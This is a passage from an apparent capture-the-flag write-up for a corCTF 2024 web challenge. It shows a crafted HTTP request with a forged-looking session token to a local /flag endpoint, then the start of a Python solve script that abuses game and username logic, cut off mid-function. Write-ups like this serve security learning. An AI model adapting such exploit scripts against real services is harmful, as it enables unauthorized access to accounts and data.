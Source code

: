 ```http
GET /flag HTTP/1.1
Host: localhost:8080
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImZsYWdfdXNlcm5hbWUiLCJnYW1lIjoiNWE4OGViYWUzNDBiZmI5YSIsImlhdCI6MTcyMjI1NDExNH0.pJ133i6k0bAAJ3yw-2NWJIGZVF_1gt_CEai6P4Ryjzc


```

![](https://github.com/siunam321/CTF-Writeups/blob/main/corCTF-2024/images/Pasted%20image%2020240729195622.png)

Nice!

Now, let's write a solve script to get the real flag!

```python
#!/usr/bin/env python3
import requests

class Solver:
    def __init__(self, baseUrl):
        self.baseUrl = baseUrl
        self.session = requests.session()
        self.CREATE_NEW_USERNAME_ENDPOINT = f'{self.baseUrl}/new'
        self.DUMMY_USERNAME = 'dummy_username'
        self.SET_TO_SCORE = 1337
        self.FLAG_USERNAME = 'flag_username'
        self.PLAY_GAME_ENDPOINT = f'{self.baseUrl}/play'
        self.GET_FLAG_ENDPOINT = f'{self.baseUrl}/flag'

    def createNewUsername(self, bodyData):
        print(f'[*] Creating new username with body data: {bodyData}')
        self.session.post(self.CREATE_NEW_USERNAME_ENDPOINT, json=bodyData)

    def playGame(self):
        print(f'[*] Losing the game intentionally...')
        bodyData = { 'position': '' }
        self.session.post(self.PLAY_GAME_ENDPOINT, json=bodyData)

    def getFlag(self):
        print(f'[*] Getting the flag...')
        return self.session.get(self.GET_FLAG_ENDPOINT).text

    def solve(self):
        bodyData = {
```